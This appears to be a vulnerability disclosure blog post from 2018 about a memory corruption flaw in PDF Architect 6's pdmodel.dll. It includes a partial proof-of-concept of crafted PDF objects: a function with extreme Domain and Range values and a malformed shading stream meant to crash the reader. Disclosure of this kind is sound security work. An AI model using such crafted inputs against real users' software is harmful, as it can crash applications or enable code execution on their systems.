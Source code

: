 ```yaml
---
layout: post
title:  "PDF Architect 6 - pdmodel.dll Memory Corruption Vulnerability"
date:   2018-09-19 03:39:03 +0700
categories: [security, integer]
---
```


Description
-----------
PDF Architect helps you to get the most out of your PDF files. The application is exceptionally light, easy-to-use and flexible. It is the advanced PDF solution with everything you need to customize, secure, and collaborate on your PDF documents. We've included all the necessary features for home and professional users alike who wish to streamline their workflow.

Root Cause
----------
A memory corruption vulnerability exists in PDF Architect software. The vulnerability is due to an error in the PDF Architect when 
handling PDF files that contain specially crafted file. A remote attacker could trigger these flaws via a specially crafted PDF file. 
Successful exploitation cause a memory corruption, causing the application to crash, and may allow execution of arbitrary code once a
malicious PDF file is loaded on a vulnerable system.

Vulnerable module, **pdmodel.dll**.

Proof of concept can be construct as in following:
```
...cut here...
6 0 obj<<
  /FunctionType 4
  /Domain [-340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 ]
  /Range [-340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 -340282299999999994960115009090224128000.000000 340282299999999994960115009090224128000.000000 ]
  /Length 3
>>
...cut here...
8 0 obj
<<
  /Type /Shading
  /ShadingType 4
  /ColorSpace [/Pattern [/DeviceN [/Col0 /Col1 /Col2 /Col3 /Col4 /Col5 /Col6] /DeviceRGB 6 0 R]]
  /BitsPerCoordinate 8
  /BitsPerComponent 8
  /BitsPerFlag 8
  /Decode [0.0 640.0 0.0 480.0 0.0 1.0 0.0 1.0 0.0 1.0 0.0 1.0 0.0 1.0 0.0 1.0 0.0 1.0 0.0 1.0]
  /Length             ÿ        ÿ  ÿ      ÿÿ        
>>
stream
            ÿ        ÿ  ÿ      ÿÿ        endstream
endobj
...cut here...
```
